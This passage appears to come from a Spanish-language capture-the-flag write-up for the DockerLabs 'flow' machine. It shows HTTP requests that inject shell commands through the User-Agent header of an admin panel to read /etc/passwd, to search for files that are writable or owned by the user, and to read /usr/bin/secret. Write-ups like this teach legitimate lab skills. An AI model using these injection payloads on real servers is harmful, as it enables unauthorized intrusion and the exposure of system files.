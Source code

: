 Consulto el archivo `/etc/passwd` para identificar usuarios con acceso al sistema.

```http
GET /gestionAdminPanel.php HTTP/1.1
User-Agent: cat /etc/passwd | grep sh$
```

![](assets/img/dockerlabs-writeup-flow/flow2_3.png)

Busco archivos y directorios accesibles por el usuario `flow` o con permisos de escritura para otros.

```http
GET /gestionAdminPanel.php HTTP/1.1
User-Agent: find / '(' -type f -or -type d ')' '(' '(' -user flow ')' -or '(' -perm -o=w ')' ')' 2>/dev/null | grep -v '/proc/'
```

![](assets/img/dockerlabs-writeup-flow/flow2_4.png)

Encuentro el archivo `/usr/bin/secret` que podría contener información sensible.

```http
GET /gestionAdminPanel.php HTTP/1.1
User-Agent: cat /usr/bin/secret
```

![](assets/img/dockerlabs-writeup-flow/flow2_5.png)
